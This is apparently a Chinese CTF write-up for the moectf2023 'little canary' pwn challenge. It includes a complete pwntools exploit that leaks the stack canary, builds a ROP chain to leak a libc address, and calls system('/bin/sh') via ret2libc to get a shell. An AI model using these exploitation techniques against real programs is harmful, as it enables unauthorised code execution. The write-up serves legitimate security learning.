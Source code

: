 ```yaml
---
title: moectf2023 - little canary
date: 2023/9/25 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过覆盖字符数组获取Canary值，利用ROP和ret2libc进行漏洞利用，最终获得shell。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

先溢出字符数组读取Canary的值

{% note warning fa-exclamation %}
Canary的第一字节是\0，需要先覆盖才能打印出后面内容，之后还要还原
{% endnote %}

获取canary的值后就可以考虑rop  
由于不存在后门且开了NX，所以后面根据ret2libc做即可

## EXPLOIT

```python
import LibcSearcher
from pwn import *

sh = remote('localhost', 43655)

# payload 1
sh.sendline(b'0'*68 + b'FLAG') # override the canary first byte '\0' with '\n'

sh.recvuntil(b'FLAG\n') # skip
canary = u64(b'\0' + sh.recvline()[:7]) # restore the overrided '\0'

elf = ELF('canary')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x00401343
vulnAddr = elf.symbols['vuln']

# payload 2
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvline() # skip
putsGotAddr = u64(sh.recvline()[-7:-1] + b'\0\0')
libc = LibcSearcher.LibcSearcher("puts", putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump("puts")
shstrAddr = libcBase + libc.dump("str_bin_sh")
systemAddr = libcBase + libc.dump("system")
retAddr = 0x004012b9

# payload 3
sh.sendline(b'skip this input')

# payload 4
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
